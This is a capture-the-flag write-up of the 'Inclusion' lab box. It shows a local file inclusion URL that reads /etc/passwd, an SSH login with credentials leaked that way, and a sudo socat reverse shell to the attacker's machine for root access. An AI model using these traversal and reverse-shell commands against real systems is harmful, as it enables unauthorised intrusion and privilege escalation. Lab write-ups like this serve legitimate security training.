




# Inclusion

> Nashia Holloway | May 11th, 2020

## Enumeration

Ports 20 and 80 are open. There's a blog that has some articles about hacking. The interesting post is about local file inclusion.



We can get the /etc/passwd file by putting `http://IP/article?name=../../../../../../etc/passwd` in the URL.



## Initial Access

As we can see, we have ssh creds in plain sight here. Logging in, we get a shell as Falconfeast. Running `sudo -l`, our user can run "socat" with sudo privs (whatever that is).



From the man pages: 

```
Socat  is a command line based utility that establishes two bidirectional byte streams and transfers data between them. Because the streams can be constructed from a large set of different types of data sinks and sources (see address types), and because lots of address options may be applied to the streams, socat can be used for many different purposes.
```

Looks like we can run this to get a reverse shell as root. From GTFOBins:



## Privilege Escalation

**On local machine:**

```
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

**On remote machine:**

```
sudo socat tcp-connect:tun0:1234 exec:sh,pty,stderr,setsid,sigint,sane
```
